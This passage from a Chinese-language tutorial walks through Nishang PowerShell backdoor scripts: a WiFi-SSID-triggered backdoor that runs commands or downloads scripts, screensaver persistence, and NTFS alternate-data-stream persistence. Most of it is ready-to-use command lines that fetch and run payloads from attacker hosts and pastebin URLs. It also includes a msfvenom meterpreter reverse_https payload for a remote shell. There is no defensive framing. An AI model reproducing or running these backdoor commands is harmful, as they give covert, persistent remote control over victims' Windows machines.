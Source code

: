 ```powershell
PS >Gupt-Backdoor -MagicString test -Verbose
``` 
这里解释一下MagicString这个参数：
MagicString开头的4个字符是用来识别我们建立的WIFI SSID的。例如，这里是test，Gupt后门会去自动匹配我们WIFI中SSID以test开头的。而MagicString这个参数从第五个字符开始就决定了我们是执行命令或是下载脚本。
需要注意的是：
* 如果它的第五个字符是c就代表执行命令。
例如：-MagicString testcwhoami 
就会匹配WIFI SSID为test的，并执行命令whoami
* 如果它的第五个字符是u的话就代表下载脚本。
例如：-MagicString testuXXXX
就会匹配WIFI SSID为test的，并默认下载http://goo.gl/XXXX
（其中http://goo.gl可在脚本的$PayloadURL参数中修改）
* 还可以用Arguments参数来指定下载脚本
例如：
PS >Gupt-Backdoor -MagicString test -Argument Get-Information -Verbose 
就可以下载Get-Information的脚本了

补充
Windows下创建一个WIFI：

```powershell
cmd
netsh wlan set hostednetwork mode=allow
netsh wlan set hostednetwork ssid=test key=1234567890
netsh wlan start hostednetwork
```
#### Add-ScrnSaveBackdoor
这个脚本可以帮助我们利用Windows的屏保来留下一个隐藏的后门
执行方式：

```powershell
PS >Add-ScrnSaveBackdoor -Payload "powershell.exe -ExecutionPolicy Bypass -noprofile -noexit -c Get-Process" //使用这条语句可以执行我们自己的Payload
PS >Add-ScrnSaveBackdoor -PayloadURL http://192.168.254.1/Powerpreter.psm1 -Arguments HTTP-Backdoor 
http://pastebin.com/raw.php?i=jqP2vJ3x http://pastebin.com/raw.php?i=Zhyf8rwh start123 stopthis //利用这条命令可以从powershell执行一个HTTP-Backdoor
PS >Add-ScrnSaveBackdoor -PayloadURL http://192.168.254.1/code_exec.ps1  //还可以使用msfvenom先生成一个powershell (./msfvenom -p windows/x64/meterpreter/reverse_https LHOST=192.168.254.226 -f powershell)，然后利用这条命令返回一个meterpreter
```
其他具体的参数的意思和我们上面介绍的一些后门是类似的
* PayloadURL 指定我们需要下载的脚本地址
* Arguments   指定我们要执行的函数以及相关参数
#### Invoke-ADSBackdoor
这个脚本是使用NTFS数据流留下一个永久性后门。其实，由NTFS数据流带来的一些安全问题的利用并不少见了（如：利用NTFS数据流在Mysql UDF提权中创建lib/plugin目录），大家可以参考《[NTFS ADS带来的WEB安全问题](http://wenku.baidu.com/view/22e049f55022aaea998f0f7c.html?from=search)》
这个脚本可以向ADS中注入代码并且以普通用户权限运行
执行方式：

```powershell
PS >Invoke-ADSBackdoor -PayloadURL http://192.168.254.1/Powerpreter.psm1 -Arguments HTTP-Backdoor "http://pastebin.
com/raw.php?i=jqP2vJ3x http://pastebin.com/raw.php?i=Zhyf8rwh start123 stopthis
```
这个脚本主要有两个参数，在上面介绍其他后门当中已经说明了，这里是类似的
需要说明的是，执行后它会在AppData的目录下建立一个ads并把我们的Payload注入进去，如果我们希望在cmd下看到我们这里建立的ads，需要使用：dir /a /r
### 4.客户端
对于这一部分的脚本，我就不再赘述了，因为网上早已经有了对于这一部分脚本的介绍说明：
[使用Powershell Client进行有效钓鱼][8]
